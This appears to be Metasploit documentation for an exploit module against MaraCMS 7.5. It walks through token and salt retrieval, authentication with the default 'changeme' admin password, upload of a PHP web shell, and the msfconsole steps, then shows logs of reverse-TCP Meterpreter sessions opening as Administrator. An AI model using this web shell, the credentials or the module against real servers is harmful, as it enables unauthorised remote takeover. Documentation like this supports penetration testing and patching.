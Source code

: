 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability in MaraCMS 7.5 and prior in order to execute arbitrary commands.

The module first tries to obtain the MaraCMS version from `/about.php` (for MaraCMS 7.5, the version number mentioned is `7.2`.)
The module then visits `/?login` to obtain the `shash` token, which is required for authentication. Next,
the module sends an HTTP POST request to `codebase/handler.php` in order to obtain the salt used by MaraCMS to create password hashes.
The module then uses the `shash` token and the salt to create the required authentication hashes,
and sends these via a second HTTP POST request to the handler.

If authentication is successful, the module tries to upload a malicious PHP file to the web root,
again via an HTTP POST request to `codebase/handler.php.`
If the `php` target is selected, the payload is embedded in the uploaded file
and the module attempts to execute the payload via an HTTP GET request to this file.
For the `linux` and `windows` targets, the module uploads a simple PHP web shell similar to `<?php system($_GET["cmd"]); ?>`.
Subsequently, it leverages the CmdStager mixin to deliver the final payload via a series of HTTP GET requests
in the form of `/<php_web_shell>?<cmd>=<payload>`.

Valid credentials for a MaraCMS `admin` or `manager` account are required.
This module has been successfully tested against MaraCMS 7.5 running on Windows Server 2012 (XAMPP server).

Vulnerable software for testing can be downloaded [here](https://sourceforge.net/projects/maracms/).
Installation is just a matter of unzipping the package to a php-capable webhost.
The requirements specified on SourceForge are an Apache or equivalent webserver (LightTPD, Nginx, etc.)
and a PHP version from 5.3 to 7.1.1. Both of these requirements can easily be fulfilled by downloading
an older version of XAMPP server for Windows or Linux from [here](https://sourceforge.net/projects/xampp/).
MaraCMS does not require a database, nor an installation script.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/maracms_upload_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the MaraCMS account]`
6. Do: `set PASSWORD [password for the MaraCMS account]`
7. Do: `set target [target]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the MaraCMS account to authenticate with. The default value is `changeme`,
as this is the default admin password for MaraCMS.
### TARGETURI
The base path to MaraCMS. The default value is `/`.
### USERNAME
The username for the MaraCMS account to authenticate with. The default value is `admin`.

## Targets
```
Id  Name
--  ----
0   PHP
1   Linux
2   Windows
```

## Scenarios
### MaraCMS 7.5 running on Windows Server 2012 (XAMPP server) - PHP target
```
msf exploit(multi/http/maracms_upload_exec) > show options

Module options (exploit/multi/http/maracms_upload_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   changeme         yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.20     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to MaraCMS
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  1192.168.1.12    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP


msf exploit(multi/http/maracms_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.12 :4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is most likely MaraCMS with version 7.5 or lower
[*] Obtained salt `9781` from server. Using salt to authenticate...
[+] Successfully authenticated to MaraCMS
[*] Uploading payload as zKEdBPw5j.php...
[+] Successfully uploaded zKEdBPw5j.php
[*] Executing the payload...
[*] Sending stage (38288 bytes) to 192.168.1.20 
[*] Meterpreter session 15 opened (192.168.1.12 :4444 -> 192.168.1.20 :49324) at 2020-09-22 15:30:14 -0400

meterpreter > 
[!] Deleting: zKEdBPw5j.php
[+] zKEdBPw5j.php removed
getuid
Server username: Administrator (0)
meterpreter >
```
### MaraCMS 7.5 running on Windows Server 2012 (XAMPP server) - Windows target
```
msf exploit(multi/http/maracms_upload_exec) > run

[*] Started reverse TCP handler on 1192.168.1.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is most likely MaraCMS with version 7.5 or lower
[*] Obtained salt `6521` from server. Using salt to authenticate...
[+] Successfully authenticated to MaraCMS
[*] Uploading payload as gCUII0Fx41Q.php...
[+] Successfully uploaded gCUII0Fx41Q.php
[*] Executing the payload via a series of HTTP GET requests to `/gCUII0Fx41Q.php?1xFqv=<command>`
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (201283 bytes) to 192.168.1.20
[*] Meterpreter session 14 opened (1192.168.1.12:4444 -> 192.168.1.20:49323) at 2020-09-22 15:30:05 -0400
[*] Command Stager progress - 100.00% done (12025/12025 bytes)

meterpreter > 
[!] Deleting: gCUII0Fx41Q.php
[+] gCUII0Fx41Q.php removed
getuid
Server username: WIN-S417DG9MRTR\Administrator
meterpreter >
```
